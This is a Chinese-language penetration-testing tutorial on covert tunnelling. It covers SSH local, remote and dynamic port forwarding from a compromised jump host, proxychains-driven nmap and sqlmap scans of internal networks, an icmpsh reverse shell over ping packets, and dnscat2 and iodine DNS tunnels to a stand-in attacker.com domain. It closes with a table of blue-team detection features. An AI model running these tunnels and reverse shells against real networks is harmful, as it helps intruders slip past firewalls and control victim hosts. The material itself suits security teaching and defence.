






# 隐蔽隧道与流量穿透实战：SSH端口转发三大神器(-L-R-D)与DNS-ICMP穿透

---

## 0. 拒绝教科书废话：不要再去死记硬背枯燥的参数表！

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


许多网络教材在讲 SSH 隧道或网络穿透时，往往直接贴出长长一段手册参数：
- `-L`, `-R`, `-D`, `-g`, `-N`, `-f`, `-q`...
读者背得头昏脑胀，实战中一旦面对稍复杂的内网隔离拓扑，依然不知道到底该用 `-L` 还是 `-R`。

### 1. 通俗生活类比：打通地下暗道的三种姿势
- **`-L`（Local 本地转发）——【把远方金库的抽屉，用密道接回我家床头】**：
  你坐在家里，想摸到远方机房深处被重重防火墙保护的一台内部数据库。你借用跳板机的力量，把数据库的端口直接“拽”到你本地电脑的一个端口上。
- **`-R`（Remote 远程转发）——【把我卧室的秘密开关，用密道送到远方盟友的指挥室】**：
  你潜入了目标内网，但目标内网在 NAT 后面，公网无法直接访问你。你在内网主动向外伸手，把内网的端口“推”到你公网 VPS 的某个端口上，让公网机器能逆向反扑进内网。
- **`-D`（Dynamic 动态转发）——【在跳板机上架设一个任意穿梭的哆啦A梦任意门】**：
  内网有成百上千个 IP 和端口，你不想每个端口都单独拉一根线。你在本地开一个 **Socks5 代理任意门**，所有想去内网的流量只要跳进这个门，跳板机就会全权代你访问任何目标！



---

## 1. SSH 端口转发三大神器实战精讲

在执行任何 SSH 隧道命令时，必须搭配以下**隐蔽静默四剑客**参数：
- **`-N`**：Do not execute a remote command（不执行任何远程 Shell 命令，只安安静静做端口转发，减少日志记录）；
- **`-f`**：Go to background（认证成功后立刻将进程放入后台执行，不占用当前终端）；
- **`-q`**：Quiet mode（静默模式，抑制警告与调试输出）；
- **`-C`**：Compress（开启数据压缩，提升内网穿透吞吐性能）。

---

### 1.1 神器一：本地端口转发 `-L`（从外向内拽取）

#### 拓扑场景：
- 你（渗透机）拿到了边界跳板机（`1.1.1.1`）的 SSH 权限；
- 跳板机能访问企业内网的一台核心 MySQL 数据库（`10.0.0.88:3306`）；
- 但你的电脑**无法直接访问** `10.0.0.88`。



#### 实战命令（在本地渗透机执行）：
```bash
# 语法：ssh -N -f -L [本地IP:]本地端口:目标内网IP:目标端口 跳板机用户@跳板机IP
ssh -N -f -L 33306:10.0.0.88:3306 root@1.1.1.1
```

#### 验证成果：
在本地终端直接连接本地 `33306` 端口：
```bash
mysql -h 127.0.0.1 -P 33306 -u root -p
```
此时本地发出的所有 SQL 流量，全部通过 SSH 加密暗道直达 `1.1.1.1`，再由它帮你投递给内网的 `10.0.0.88:3306`！

---

### 1.2 神器二：远程反向端口转发 `-R`（从内向外反弹）

#### 拓扑场景：
- 你通过 Web 漏洞（如 RCE）拿下了内网某台受控主机 A（`10.0.0.5`）；
- 该主机处于 NAT 路由器后面，**公网完全没有它的路由**，你无法从外部主动连它；
- 你拥有一台公网独立 VPS（`123.56.78.90`）；
- 你想把内网主机 A 的 SSH 端口（`22`）或内网某台 Windows 的远程桌面（`3389`）暴露给外网。



#### 实战命令（在内网受控机器 A 执行）：
```bash
# 语法：ssh -N -f -R VPS映射端口:内网目标IP:内网目标端口 vps用户@VPS公网IP
ssh -N -f -R 2222:127.0.0.1:22 root@123.56.78.90
```

#### 验证成果：
在你的公网 VPS 上，直接连接自己本机的 `2222` 端口：
```bash
ssh -p 2222 root@127.0.0.1
```
你瞬间顺着这条反向隧道，直接登入了远在千里之外、身处严密 NAT 内网的受控主机终端！

> [!CAUTION] 致命翻车避坑：`GatewayPorts` 配置
> SSH 的 `-R` 默认只在 VPS 的本地回环 `127.0.0.1` 上监听映射端口。如果你希望让其他队友也能通过公网 IP 访问该端口，必须修改 VPS 的 `/etc/ssh/sshd_config`：
> `GatewayPorts yes`
> 并执行 `systemctl restart sshd` 重启服务！

---

### 1.3 神器三：动态端口转发 `-D`（万能 Socks5 全网漫游）

#### 拓扑场景：
- 你拿下了一台内网跳板机（`1.1.1.1`）；
- 内网里有整整一个 C 段（`10.0.0.1/24`），存在各种 Web 系统、OA 协同、域控；
- 你不可能为每个内网 IP 和端口都敲一次 `-L`，你想要让本地的渗透工具（Burp, Sqlmap, 浏览器）**像在局域网内一样自由访问所有内网 IP**！



#### 实战命令（在本地渗透机执行）：
```bash
# 语法：ssh -N -f -D 本地Socks5端口 跳板机用户@跳板机IP
ssh -N -f -D 10808 root@1.1.1.1
```

#### 联动利器：`proxychains4` 全局工具链透明代理
修改本地 `/etc/proxychains4.conf` 文件底部：
```ini
[ProxyList]
socks5 127.0.0.1 10808
```
现在，你本地任何原本无法访问内网的命令行工具，只要前面加一个 `proxychains`，就能直接轰击内网：
```bash
# 扫描内网未授权 Redis
proxychains4 nmap -sT -Pn -p 6379 10.0.0.0/24

# 直接利用 sqlmap 注入内网深处的 Web 系统
proxychains4 sqlmap -u "http://10.0.0.10:80/api?id=1" --batch
```

---

## 2. 极端网络突破一：ICMP 隐蔽隧道（Ping 包穿透）

### 2.1 适用场景与底层机理
- **极端防御策略**：企业防火墙配置了近乎变态的入站/出站规则，所有 TCP 端口（80, 443, 22）和 UDP 端口全部封死；
- **防线破绽**：运维工程师为了检测服务器是否死机，在防火墙策略中**默认放行了 ICMP 报文（允许外网 Ping）**；
- **底层机理**：ICMP 协议的 `Echo Request`（类型 8）与 `Echo Reply`（类型 0）报文中，允许附带任意自定义的 **数据载荷（Data Payload）**。黑客将命令行输入输出或 TCP 流量切片藏在数据段里，伪装成普通的 Ping 包出站！



---

### 2.2 武器实战：`icmpsh`

#### 步骤 1：攻击者 VPS 配置（关闭内核自带 Ping 应答，防止干扰）
```bash
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

#### 步骤 2：启动监听器
```bash
# 语法：python icmpsh_m.py <VPS公网IP> <受害者公网出口IP>
python icmpsh_m.py 123.56.78.90 192.168.1.100
```

#### 步骤 3：在受害者靶机运行客户端
```cmd
icmpsh.exe -t 123.56.78.90
```
瞬间在攻击者 VPS 终端弹出交互式 Windows CMD Shell，全程抓包看到的只有清一色的 Ping 请求！

---

## 3. 极端网络突破二：DNS 隐蔽隧道（递归穿透）

### 3.1 适用场景：物理隔离级内网的绝杀

- **绝境场景**：受害主机身处绝密内网，**没有公网 IP，默认路由没有外网网关**，连 Ping 外网都打不通！
- **唯一破绽**：机器配置了内部域控 DNS（如 `10.0.0.2`），只要内网电脑向外查询域名，域控会**逐级向上递归查询最终送达公网**！



---

### 3.2 武器实战：`dnscat2` 与 `iodine`

#### 1. 前置域名配置（域名解析控制台）
在你的域名管理后台添加两条记录：
- `ns.attacker.com` $\to$ `A` 记录指向你的公网 VPS IP；
- `tunnel.attacker.com` $\to$ `NS` 记录指向 `ns.attacker.com`。

#### 2. `dnscat2` 实战（免 VPN，纯 C2 交互命令行）
- **服务端（公网 VPS 启动）**：
  ```bash
  ruby dnscat2.rb tunnel.attacker.com
  ```
- **客户端（受害者终端启动）**：
  ```bash
  # 哪怕完全无法直连外网，只要能解析域名，就能瞬间连回！
  ./dnscat --secret=MyStrongSecretKey tunnel.attacker.com
  ```
- **控制台交互**：
  服务端控制台提示 `New session established: 1`，输入 `session -i 1` 即可开启远程 Shell，或者启动端口转发！

#### 3. `iodine` 实战（建立完整底层虚拟网卡 IP 隧道）
- **服务端启动**：
  ```bash
  # 10.0.0.1 为分配给虚拟网卡 dns0 的内网 IP
  sudo iodined -f -c -P Password123 10.0.0.1 tunnel.attacker.com
  ```
- **客户端启动**：
  ```bash
  sudo iodine -f -P Password123 tunnel.attacker.com
  ```
  连接成功后，受害机本地多出一块虚拟网卡 `10.0.0.2`，直接与 VPS 组成点对点局域网，实现全协议打通！

---

## 4. 隐蔽隧道攻防思维模型速查表

| 穿透技术 | 适用网络隔离条件 | 核心工作原理 | 经典武器工具 | 蓝队防御与检测特征 |
| :--- | :--- | :--- | :--- | :--- |
| **SSH 本地转发 (`-L`)** | 本地可直连跳板机，跳板机可达目标 | 从外往里拽：在本地映射端口 | `ssh -N -f -L` | 审计出站高危端口连接、堡垒机指令白名单 |
| **SSH 远程转发 (`-R`)** | 目标机在 NAT 后无法直连，但可出站连 VPS | 从里往外推：在公网 VPS 映射端口 | `ssh -N -f -R` | 阻断内网主机向外发起非常规 22 端口出站 |
| **SSH 动态代理 (`-D`)** | 拥有跳板机权限，需全网段漫游 | 在本地开启 Socks5 协议任意门 | `ssh -D` + `proxychains` | 告警大流量 Socks5 握手特征与内部全网段突发扫描 |
| **ICMP 隧道** | 仅放行 Ping 包，封死所有 TCP/UDP | 将命令与流量切片塞入 Ping Data Payload | `icmpsh`, `ptunnel` | 检测 ICMP 报文载荷异常过大、超高频 Ping 请求 |
| **DNS 隧道** | 完全物理断网，仅允许内网域控递归解析 | 将数据编码为子域名，借由递归链路投递 | `dnscat2`, `iodine` | 检测单域名高熵值、极短 TTL、超大 TXT 响应记录 |
